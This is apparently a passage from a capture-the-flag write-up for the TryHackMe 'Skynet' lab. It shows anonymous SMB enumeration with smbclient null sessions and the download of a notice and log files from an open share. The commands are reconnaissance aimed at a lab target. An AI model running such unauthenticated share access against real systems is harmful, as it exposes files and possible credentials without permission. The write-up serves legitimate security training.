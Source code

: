 We see there is an anonymous share and the milsdyson share which looks interesting, lets see if we can access it

1. milesdyson
```
┌──(root㉿kali)-[/home/z3tssu/THM/Skynet]
└─# smbclient \\\\10.10.190.192\\milesdyson -N
tree connect failed: NT_STATUS_ACCESS_DENIED

```
![[Pasted image 20251021190219.png]]
2. anonymous 
```
┌──(root㉿kali)-[/home/z3tssu/THM/Skynet]
└─# smbclient \\\\10.10.190.192\\anonymous -N 
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Thu Nov 26 20:04:00 2020
  ..                                  D        0  Tue Sep 17 11:20:17 2019
  attention.txt                       N      163  Wed Sep 18 07:04:59 2019
  logs                                D        0  Wed Sep 18 08:42:16 2019

                9204224 blocks of size 1024. 5831500 blocks available
smb: \> 

```

### Download the files 
Since we have seen there are some files we can have access to, lets download it to our attacker machine with the command "get file_name.txt", we can also browse to the log directory to see what we get
```
get attention.txt
```

### Viewing the contents of attention.txt
```
┌──(z3tssu㉿kali)-[~/THM/Skynet]
└─$ cat attention.txt 
A recent system malfunction has caused various passwords to be changed. All skynet employees are required to change their password after seeing this.
-Miles Dyson

```
### Getting the files in the log directory
```
smb: \logs\> get log1.txt
getting file \logs\log1.txt of size 471 as log1.txt (0.3 KiloBytes/sec) (average 0.2 KiloBytes/sec)
smb: \logs\> get log2.txt
getting file \logs\log2.txt of size 0 as log2.txt (0.0 KiloBytes/sec) (average 0.1 KiloBytes/sec)
smb: \logs\> get log3.txt
getting file \logs\log3.txt of size 0 as log3.txt (0.0 KiloBytes/sec) (average 0.1 KiloBytes/sec)
smb: \logs\> 

```
